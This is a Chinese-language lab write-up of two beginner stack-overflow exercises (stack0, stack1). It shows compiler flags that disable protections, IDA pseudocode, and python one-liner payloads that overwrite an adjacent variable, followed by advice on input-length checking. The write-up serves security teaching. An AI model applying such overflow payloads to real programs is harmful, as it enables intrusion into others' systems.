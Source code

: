 # 栈溢出实验1

## 实验概述

### 【目的】
1. 通过-fno-stack-protector和-m32参数从gcc编译stack0.c文件。
2. 运行编译后的程序，通过缓冲区溢出修改与字符串数组相邻的变量，得到输出"you have changed the 'modified' variable"
3. 运行stack1程序，通过栈溢出得到输出"you have correctly got the variable to the right value"
### 【环境】
Linux
### 【工具】
gcc，python，IDA pro，binwalk
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
打开shell，使用-fno-stack-protector参数编译stack0。
```sh
$ gcc stack0.c -o stack0 -fno-stack-protector -m32
stack0.c: In function ‘main’:
stack0.c:11:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(buffer);
   ^
/tmp/ccccxHmM.o: In function `main':
stack0.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```
观察源代码，发现buffer数组与modified变量相邻，要使modified变量不等于0，才能得到输出"you have changed the 'modified' variable"
因为有gets()函数，我们可以向栈上不加限制的写入任意长度的数据，当输入数据大于64时，便发生了溢出，输入数据只要够大，就一定能覆盖到modifiel变量。

这里我们使用python简化输入，免去手打一大堆字符的麻烦。
```sh
$ python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable
Segmentation fault (core dumped)
```

#### stack1
用binwalk分析程序结构。
```
$ binwalk stack1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
发现是32位程序，直接拖进idaq.exe，定位到main函数，按F5生成伪代码。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+0h] [bp-4Ch]@3
  int v5; // [sp+40h] [bp-Ch]@3
  int *v6; // [sp+48h] [bp-4h]@1

  v6 = &argc;
  if ( argc == 1 )
    errx(1, "please specify an argument\n");
  v5 = 0;
  strcpy(&dest, argv[1]);
  if ( v5 == 'abcd' )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到这里把作为参数的字符串复制到了变量dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。


### 【总结】

本次实验主要体验Linux环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：


- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

